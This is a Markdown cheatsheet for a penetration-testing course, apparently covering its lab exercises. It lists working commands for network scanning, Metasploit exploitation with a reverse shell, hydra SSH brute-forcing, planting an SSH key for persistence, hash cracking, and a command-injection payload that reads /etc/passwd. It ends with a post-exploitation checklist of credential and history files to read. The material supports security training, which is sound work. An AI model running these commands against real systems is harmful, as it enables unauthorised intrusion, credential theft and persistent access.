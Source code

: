 # PB177 Cheatsheet

## [Lab topics](./labs/README.md)

## Useful websites
- vulnerability search
	- https://www.google.com/
	- https://nvd.nist.gov/vuln/search
- hash type identifier
	- https://hashes.com/en/tools/hash_identifier

# Strategy

## Scanning network

1. scan network for hosts
```sh
nmap -T5 10.0.33.0/24
```

2. scan host for open ports, application versions, operating system, vulnerabilities
```sh
nmap -T5 -p- -sS -sV -O -Pn 10.0.33.50
```

3. scan port for vulnerabilities (extremely slow - can skip)
```sh
nmap -p 443 --script=vuln -Pn 10.0.66.201
```

4. resolve hostnames
```sh
host 10.0.33.50
```

5. get info about company from certificates
```sh
nmap --script ssl-cert 10.0.66.201 
```

6. scan publicly accessible directories at web servers
```sh
dirb https://10.0.66.201

nmap --script=http-enum 10.0.66.201
```

7. check if host is online
```
ping -c 1 10.0.0.254 && echo "Host is ONLINE" || echo "Host is OFFLINE"
```

## Searching vulnerabilities

1. run linpeas
```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
podman cp linpeas.sh attacker:~/linpeas.sh
```

2. search anything sus with google

## Exploiting vulnerability

1. search metasploit for exploit
```sh
search webmin
info 0
```

2. test out exploit
```sh
use 0
set RHOST 10.0.33.80
set LHOST eth0 # for reverse shell
set RPORT 10000
show options
check
```

## Password guessing

1. create a wordlist with AI (should be a small file)
```sh
# might need to convert to ascii
cat wordlist.txt | iconv -f utf-8 -t ascii//TRANSLIT > output.txt
file output.txt
```

2. run hydra (should give result right away !!!)
```sh
hydra -l username -P wordlist.txt ssh://10.0.88.2
```

3. connect through ssh and add ssh pub key
```sh
ssh test@10.0.33.110
mkdir -p ~/.ssh
ssh-keygen -t ed25519 -C "email@example.com"
scp .ssh/id_ed25519.pub test@10.0.33.110:~/.ssh/authorized_keys
```

## Password cracking

1. save hash in file

2. get hash type from google search

3. crack with john
```sh
john --format=Raw-MD5 passwords.txt
```

## Command injection

1. find out the request format

2. forge command injection
```sh
curl -s http://10.0.0.10:80/vulnerabilities/exec/ -X POST --data-raw 'ip=10.0.0.254;cat /etc/passwd&Submit=Submit' | lynx -nolist -dump -stdin
```

## Lateral movement

1. check for more hosts on the system

2. connect to them

3. collect info as you go

## What to always check

- run Linpeas

- DNS configuration
```sh
cat /etc/resolv.conf
```

- message of the day
```sh
cat /run/motd.dynamic
cat /var/run/motd.dynamic
```

- bash history
```sh
cat ~/.bash_history
```

- ssh directory
```
ls ~/.ssh
```

- other users
```sh
cat /etc/passwd
```

- files
```sh
find / -name "*.docx"
```

- logs
```sh
cat /var/log/auth.log
cat /var/log/syslog
```
